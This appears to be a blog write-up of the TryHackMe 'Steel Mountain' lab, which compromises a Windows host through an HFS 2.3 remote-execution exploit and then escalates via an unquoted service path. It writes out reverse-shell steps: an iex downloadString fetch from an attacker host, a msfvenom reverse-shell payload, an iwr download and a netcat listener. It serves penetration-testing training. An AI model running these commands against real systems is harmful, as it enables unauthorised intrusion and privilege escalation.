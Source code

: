 ```yaml
---
layout: single
title: SteelMountain - TryHackMe (OSCP STYLE)
excerpt: "On TryHackMe, the challenge of the Steel Mountain Machine is to be solved either through Metasploit or manually. This machine runs on Windows operating system. For this particular challenge, the manual approach will be followed to solve it."
date: 2023-04-14
classes: wide
header:
  teaser: /assets/images/steelmountain/portada.jpeg
  teaser_home_page: true
categories:
  - TryHackMe
  - infosec
tags:
  - TryHackMe
  - windows
  - Unquoted Service Path
  - HFS
---
```


## Introduccion

This is a write-up for the SteelMountain machine on the TryHackme platform. We tackled this pentesting exercise using the approach and methodology of OSCP.

## Enumeration

In this lab, we are dealing with a Windows machine.
For machine enumeration, we will scan all ports of the machine, request it to report back the open ports, and save all that information to a file to avoid making noise in case we need to refer back to it.
- -p-: Scans all ports
-	-oN nmap-initial-scan.txt: Saves output to a file named "nmap-initial-scan.txt"
-	-min-rate 5000: Specifies the minimum number of packets per second to be sent during the scan.
-	-T5: Sets the level of "aggressiveness" of the scan to 5, meaning that more intense and faster tests will be performed.
-	-Pn: Ignores checking whether the remote host is active and online.
-	-n: Disables DNS name resolution for IP addresses.

```
sudo nmap -p- -sS --min-rate 5000 --open -T5 -vvv -n -Pn 10.10.178.153 -oG allPorts
```

![1]

Upon port scanning, it was identified that a web server is being served on ports 80 and 8080. This indicates the presence of HTTP services on the target machine. Navigating to those ports, the following web pages were discovered.

![2]

This web page is only useful to solve the first question of the lab. In this write-up, we will focus on compromising the machine.

![3]

On the second page, we discovered an HttpFileServer 2.3. Using the "searchsploit" command to look for the name of this file, we found a Python script that allows remote command execution. This search was made possible by the ExploitDb database, which lists this exploit with the number 49584.

![4]

The script first sets some variables, including the IP address and port of the attacker machine (lhost and lport), and the IP address and port of the victim machine (rhost and rport). It then defines a command to be executed on the victim machine in PowerShell, which sets up a TCP connection to the attacker machine and sends the output of any executed commands back to the attacker machine.

It encodes this command in base64 format and creates a payload that includes the encoded command, which is then URL-encoded and sent to the victim machine as part of an HTTP GET request. Once the payload is received by the victim machine and executed, a reverse shell connection is established and the attacker machine can interact with the victim machine.

Finally ends by printing some debugging information and listening for incoming connections on the specified port using the netcat utility.

To make this script work, we need to change the first 4 parameters.

![5]

After running the script, we received the reverse shell on our machine.

![6]

![7]

By obtaining a reverse shell on the target machine, we were able to retrieve the first flag.

![8]


## Privilege escalation

It is important to note that we gained access with a PowerShell session, so all syntax used must be in this interpreter.

We used the PowerUp.ps1 tool to enumerate potential privilege escalation vectors within the machine. At the end of the script, we should add "Invoke-AllChecks" to perform the scan.

The GitHub repository to download the tool is:[Github](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)

We executed the script from our local machine using the Invoke-Expression tool, which means that the script was not downloaded or stored on the victim's machine.

```
iex(New-Object Net.WebClient).downloadString('http://LIP:LPORT/PowerUp.ps1')
```

We need to launch an HTTP server using Python, specifying the directory where the file mentioned above is located as the document root.

```
sudo python3 -m http.server 8080
```

![9]

The vulnerability detected by the tool is called "Unquoted Service Path".

![10]

The Unquoted Service Path vulnerability refers to an error in the way the path of a Windows service is specified in the registry. If the path contains spaces but is not enclosed in double quotes, the service may attempt to execute an unintended program or even a malicious backdoor. This vulnerability can be exploited if the user running the service has elevated privileges, allowing an attacker to escalate privileges to gain control over the system.

For example, let's say a Windows service is installed with a path of C:\Program Files\Example Service\service.exe. However, the service is registered in the registry without quotes around the path, like this:
HKLM\SYSTEM\CurrentControlSet\Services\ExampleService
ImagePath: C:\Program Files\Example Service\service.exe

If a user with administrative privileges attempts to start this service, Windows will search for the executable at the specified path. However, because the path contains spaces and is not enclosed in quotes, Windows will interpret the first space as a separator between the path and the first argument. In this case, Windows will attempt to execute C:\Program instead of C:\Program Files\Example Service\service.exe. If an attacker were to place a malicious file named C:\Program.exe on the system, Windows would execute that file instead of the intended service executable.
To exploit this vulnerability, an attacker could create a malicious file with a name like C:\Program.exe and place it on the system. When the vulnerable service is started, Windows would execute the malicious file instead of the intended executable, allowing the attacker to execute arbitrary code with elevated privileges.

To take advantage of the vulnerability on this machine, we will go to the path:

```
C:\Program Files (x86)\IObit\
```

This path is the first path where we can add an executable file due to user permissions.

Since we cannot access the C:\Program Files(x86) directory with our account privileges, we will place a vulnerable executable file named "Advanced.exe" generated with MSFVenom in this directory.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=x.x.x.x LPORT=xxx -f exe -o Advanced.exe
```

We will use the Invoke-WebRequest tool from the target machine to request the file by sharing it from our machine to the target machine through the Python server.

```
iwr -uri "http://AtackerIP:AtackerPort/Advanced.exe" -outfile "Advanced.exe
```

![11]

Finally, we just need to stop and restart the service. When the service runs again, it will execute our script before the legitimate one, and it will call a listener that we have set up on our attacker machine as an administrator.

```
Victim Machine:
stop-service AdvancedSystemCareService9
start-service AdvancedSystemCareService9

Atacket Machine:
nc -lvnp AtackerPort
```
 
   

We receive the shell in the listener set up with netcat.

![12]

In conclusion, this CTF provided an opportunity to practice different hacking techniques and tools, including enumeration, vulnerability scanning, exploitation, and privilege escalation. We were able to compromise the target machine by exploiting known vulnerabilities and using social engineering tactics. This CTF also helped us improve our understanding of how attackers can gain unauthorized access to systems and the importance of implementing security best practices to protect against such attacks.


[1]:/assets/images/steelmountain/1.png
[2]:/assets/images/steelmountain/2.png
[3]:/assets/images/steelmountain/3.png
[4]:/assets/images/steelmountain/4.png
[5]:/assets/images/steelmountain/5.png
[6]:/assets/images/steelmountain/6.png
[7]:/assets/images/steelmountain/7.png
[8]:/assets/images/steelmountain/8.png
[9]:/assets/images/steelmountain/9.png
[10]:/assets/images/steelmountain/10.png
[11]:/assets/images/steelmountain/11.png
[12]:/assets/images/steelmountain/12.png
